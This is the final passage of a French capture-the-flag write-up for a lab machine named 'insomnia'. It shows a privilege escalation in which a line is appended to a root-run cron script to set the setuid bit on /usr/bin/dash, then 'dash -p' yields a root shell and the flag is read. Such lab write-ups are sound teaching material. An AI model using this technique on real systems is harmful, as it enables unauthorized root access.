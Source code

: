 Il est donc exécuté toutes les minutes. On va faire en sorte qu'il mette le droit setuid sur `/usr/bin/dash` :

```shellsession
julia@insomnia:/var/cron$ ls -al /usr/bin/dash
-rwxr-xr-x 1 root root 121464 Jan 17  2019 /usr/bin/dash
julia@insomnia:/var/cron$ echo "chmod 4755 /usr/bin/dash" >> /var/cron/check.sh
julia@insomnia:/var/cron$ ls -al /usr/bin/dash
-rwsr-xr-x 1 root root 121464 Jan 17  2019 /usr/bin/dash
julia@insomnia:/var/cron$ /usr/bin/dash -p
# cd /root
# ls
root.txt
# cat root.txt

~~~~~~~~~~~~~~~\
ROOTED INSOMNIA
~~~~~~~~~~~~~~~
Flag : [c84baebe0faa2fcdc2f1a4a9f6e2fbfc]

by Alienum with <3
```

*Publié le 6 décembre 2022*
